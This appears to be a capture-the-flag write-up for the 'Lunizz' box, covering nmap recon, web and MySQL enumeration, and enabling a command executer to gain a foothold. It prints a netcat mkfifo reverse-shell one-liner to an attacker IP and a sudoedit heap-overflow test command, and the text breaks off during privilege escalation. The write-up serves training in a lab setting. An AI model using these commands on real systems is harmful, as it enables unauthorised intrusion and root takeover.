 # Lunizz CTF

- Recon Stage
    1. Port Mapping using Threader3000

        ![Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled.png](Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled.png)

    2.  Nmap Scan

    `nmap -p22,80,3306,4444,5000 -sV -sC -T4 -Pn {box ip}` 

    ```

    PORT     STATE SERVICE    VERSION
    22/tcp   open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 f8:08:db:be:ed:80:d1:ef:a4:b0:a9:e8:2d:e2:dc:ee (RSA)
    |   256 79:01:d6:df:8b:0a:6e:ad:b7:d8:59:9a:94:0a:09:7a (ECDSA)
    |_  256 b1:a9:ef:bb:7e:5b:01:cd:4c:8e:6b:bf:56:5d:a7:f4 (ED25519)
    80/tcp   open  http       Apache httpd 2.4.29 ((Ubuntu))
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    |_http-title: Apache2 Ubuntu Default Page: It works
    3306/tcp open  mysql      MySQL 5.7.32-0ubuntu0.18.04.1
    | mysql-info: 
    |   Protocol: 10
    |   Version: 5.7.32-0ubuntu0.18.04.1
    |   Thread ID: 6
    |   Capabilities flags: 65535
    |   Some Capabilities: SupportsLoadDataLocal, Support41Auth, Speaks41ProtocolOld, InteractiveClient, IgnoreSpaceBeforeParenthesis, SupportsCompression, ODBCClient, SwitchToSSLAfterHandshake, LongPassword, LongColumnFlag, FoundRows, SupportsTransactions, ConnectWithDatabase, Speaks41ProtocolNew, IgnoreSigpipes, DontAllowDatabaseTableColumn, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
    |   Status: Autocommit
    |   Salt: |Q\x1Egd\x01 \x0Bd\x0D%G2S}]\x01\x06m4
    |_  Auth Plugin Name: mysql_native_password
    | ssl-cert: Subject: commonName=MySQL_Server_5.7.32_Auto_Generated_Server_Certificate
    | Not valid before: 2020-12-10T19:29:01
    |_Not valid after:  2030-12-08T19:29:01
    |_ssl-date: TLS randomness does not represent time
    4444/tcp open  tcpwrapped
    5000/tcp open  tcpwrapped
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    ```

    - There are 2 ports which are "TCPWRAPPED".

        It means that a full TCP handshake was completed, but the remote host closed the connection without receiving any data.

        ![https://media0.giphy.com/media/G5X63GrrLjjVK/200w.gif](https://media0.giphy.com/media/G5X63GrrLjjVK/200w.gif)

- Enumeration
    - Enumerating Webpage
        - Gobuster Scan

            ![Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%201.png](Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%201.png)

            Lets hop in each of the webpage one by one.

            - index.php

                Its the default Apache Page

                ![Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%202.png](Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%202.png)

                ![Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%203.png](Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%203.png)

                Nothing Interesting Here, Moving on.

            - hidden

                This page looks good, we gotta form kind of thing, we can upload images here.
                So if we can bypass the filtration, maybe we can have a reverse shell. 🙂

                ![Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%204.png](Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%204.png)

                Lets first check where the files are going. This is also a short check to see if its working or not.

                Uploading a Random Image.

                ![Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%205.png](Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%205.png)

                Okay the webpage says that the image is uploaded to `/uploads` folder.

                ![Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%206.png](Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%206.png)

                But it never showed up ....☹️

                ![Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%207.png](Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%207.png)

                This might be a rabbit hole, lets move on for now.

                We will come back here and try to further enumerate this webpage if we don't find anything interesting on the other webpages.

            - instructions.txt

                ![Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%208.png](Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%208.png)

                We got the credentials of the sql server, its (Redacted-username:Redacted-password)

            - whatever

                ![Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%209.png](Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%209.png)

                Looks like it's a Command Executer but the Executer Mode is `0`, which in computer Language means "is Disabled".

    - Enumerating SQL Server

        ```
        mysql -h {your-ip} -u {username}  -P 3306 -p
        ```

        To see all the databases we will use `show databases;`

        ![Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%2010.png](Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%2010.png)

        The `runornot`database is interesting, lets "USE" that

        ![Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%2011.png](Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%2011.png)

        Lets see the tables; 

        ![Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%2012.png](Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%2012.png)

        To see whats inside the tables, we will use the basic `Select * from table_name` query.

        ![Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%2013.png](Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%2013.png)

        Run is set to 0 , this might have a connection to what we saw [here.]() 

        Lets update this to 1 and see if we can execute commands.

        ![Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%2014.png](Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%2014.png)

- Getting a foothold

    After changing the values on the database, we got `Command Executer Mode: 1`

    ![Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%2015.png](Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%2015.png)

    - Starting up a listener

        ![Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%2016.png](Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%2016.png)

    - Netcat OpenBsd [Reverse-Shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-openbsd)

        ```
        rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {tun0-ip} 1234 >/tmp/f
        ```

    ***We got it!!***

    ![Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%2017.png](Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%2017.png)

    [Stabilizing this shell](https://www.notion.so/Python-d48fc37b9f1345f5abe80845c0ca26dc) 

    ![Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%2018.png](Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%2018.png)

- Privilege Escalation

    Uploading [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) and [kernelexploitsuggestor](https://github.com/mzet-/linux-exploit-suggester) to the box and see if I have something to exploit.

    While linpeas was running, we got some hits on Kernel-exploit-suggestor

    ![Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%2019.png](Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%2019.png)

    Time to try the latest Heap Buffer-Overflow Exploit, {[Baron Samedi](https://tryhackme.com/room/sudovulnssamedit)t}

    To check if its vulnerable , we can just use this command

    ```python
    sudoedit -s '\' $(python3 -c 'print("A"*1000)')
    ```

    ![Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%2020.png](Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%2020.png)

    Uploading the exploit directory to the machine

    ![Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%2021.png](Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%2021.png)

    - cd into the directory and use `make` command to compile the exploit.

    ![Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%2022.png](Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%2022.png)

    ![Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%2023.png](Lunizz%20CTF%2063e7baba680c4483ab7a521dd3e35d51/Untitled%2023.png)